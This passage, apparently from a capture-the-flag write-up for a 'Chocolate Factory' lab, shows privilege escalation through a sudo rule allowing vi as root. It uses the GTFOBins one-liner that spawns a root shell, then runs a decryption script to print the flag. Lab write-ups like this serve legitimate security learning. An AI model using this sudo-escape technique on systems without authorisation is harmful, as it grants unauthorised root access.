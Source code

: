 --> And now let's continue with the privesc part!

## Privesc

First of all i done `sudo -l` and found that we can run `/usr/bin/vi` as root so let's goto gtfobins and find command to privesc

and i found this command:

```bash
sudo /usr/bin/vi -c ':!/bin/sh' /dev/null
```

--> And boom i got root !

so let's get the `root` flag but wait i found one file there called `root.py` so we are not done yet!

When i have cat that file i found that it's getting key from user and decoding something:

```py
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAA
KyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
```

So i remembered that we found one key earlier so let's use it at the place of `key` variable here and i done something like this:

![](Attachments/Pastedimage20211226132802.png)

--> So let's run that python file with `python root.py` and i got my flag !
